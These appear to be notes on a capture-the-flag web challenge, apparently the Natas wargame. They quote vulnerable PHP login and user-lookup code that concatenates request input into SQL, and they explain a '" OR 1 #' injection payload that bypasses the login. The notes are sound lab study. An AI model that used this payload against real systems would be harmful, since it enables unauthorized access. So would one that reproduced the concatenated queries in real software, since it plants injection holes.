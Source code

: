 ```php
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
```

focusing in on the query:
`"SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""`

cleaning it up a little, this is what it will appear based on the form's input (NOTE: I'm not sure why they're being stored in `$_REQUEST` instead of `$_POST`, one of the peculiarities I'm not aware of in php)

`SELECT * from users where username="<username>" and password="<password>"`

Notice the quotes. So knowing a little bit of SQL, I know the syntax. I probably can't guess the username and even more likely wouldn't be able to also guess the password, so my strategy is to put the following in the username of the form (keeping password blank is fine)

`" OR 1 #`

This way, the query above reads

`SELECT * from users where username="" OR 1 # and password=""`

So "get me everything from the database where the username is "" or True". One of these is going to be true, either the usernamwe being blank or simply TRUE = True, so we're dandy.



another:

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```